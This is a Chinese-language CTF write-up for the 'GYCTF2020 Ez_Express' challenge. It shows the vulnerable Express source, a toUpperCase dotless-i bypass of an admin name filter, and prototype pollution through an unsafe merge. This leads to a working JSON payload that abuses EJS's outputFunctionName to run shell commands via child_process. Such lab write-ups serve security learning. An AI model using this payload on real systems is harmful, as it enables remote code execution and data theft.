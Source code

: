 # [GYCTF2020]Ez_Express

## 知识点

- `toUppercase`和`tolowercase`函数的绕过
- 原型链污染
- express框架的SSTI

## 解题

![image-20210610205515971]([GYCTF2020]Ez_Express/image-20210610205515971.png)

提示用ADMIN账号登录

有个www.zip的源码

```javascript
//index.js
var express = require('express');
var router = express.Router();
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
function safeKeyword(keyword) {
  if(keyword.match(/(admin)/is)) {
      return keyword
  }

  return undefined
}

router.get('/', function (req, res) {
  if(!req.session.user){
    res.redirect('/login');
  }
  res.outputFunctionName=undefined;
  res.render('index',data={'user':req.session.user.user});
});


router.get('/login', function (req, res) {
  res.render('login');
});



router.post('/login', function (req, res) {
  if(req.body.Submit=="register"){
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }
  
  }
  res.redirect('/'); ;
});
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
module.exports = router;

```

有个 merge 操作

```javascript
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
```

可能会利用原型链污染

register 的时候，会对 `req.body.userid` 进行安全检查

```javascript
function safeKeyword(keyword) {
  if(keyword.match(/(admin)/is)) {
      return keyword
  }

  return undefined
}
```

里面如果有 admin 好像就会被发觉，没问题的话，就在 req.session里面加一个

```javascript
req.session.user={
  'user':req.body.userid.toUpperCase(),
  'passwd': req.body.pwd,
  'isLogin':false
}
```

login 的时候

```javascript
if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
  req.session.user.isLogin=true;
}
```

直接匹配 ，`req.body.userid` 和 `req.body.pwd`

有个 /action ，不过只有满足这个条件，才能访问

```javascript
req.session.user.user=="ADMIN"
```

会调用

```javascript
req.session.user.data = clone(req.body);
```

从而进行原型链污染

已知 `nodejs` 的 `toUpperCase` 有一个漏洞

https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html

所以注册一个

```
admın
```

然后就登录上了

然后就可以访问 /action，从而调用 clone 方法

```javascript
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
req.session.user.data = clone(req.body);
```

访问 /info 的话，会对 `index.ejs` 进行渲染， `res.outputFunctionName` 将会填入其中

`req.body `默认是 undefined ，看了看代码，用了 这个

```javascript
app.use(express.json());
```

因而 post data 要写成 `json` 的形式

抓个包，改一下

```javascript
Content-Type: application/json
```

ejs.js 有个 `rce` 漏洞

在 ejs.js 中，有类似这样的代码

```javascript
fn = new Function("escapeFn , include , rethrow" , src);
return fn.apply()
```

而其中的 src ，类似于这样

```javascript
src = prepended +this.source + appended
prepended = "var "+opts.outputFunctionName + "__append"  + "sth" + opts.destructuredLocals[0] +opts.destructuredLocals[1] + opts.destructuredLocals[2] + 一直加到底 + "sth" +"with("+ opts.localsName

```

也就是说，可以通过改变 `Object.prototype.outputFunctionName` 来执行任意代码

```javascript
; return global.process.mainModule.require("child_process").execSync("nl /*").toString(); //
```

写个脚本得到 ，要送上的 json

```javascript
data = {"lua":"hello","Submit":"","__proto__":{"outputFunctionName":'a=0; return global.process.mainModule.require("child_process").execSync("nl /flag").toString(); //'}}
import json
print(json.dumps(data))
print(len(json.dumps(data)))
```

```json
{"lua": "hello", "Submit": "", "__proto__": {"outputFunctionName": "a=0; return global.process.mainModule.require(\"child_process\").execSync(\"nl /flag\").toString(); //"}}

```

![image-20210610210504542]([GYCTF2020]Ez_Express/image-20210610210504542.png)

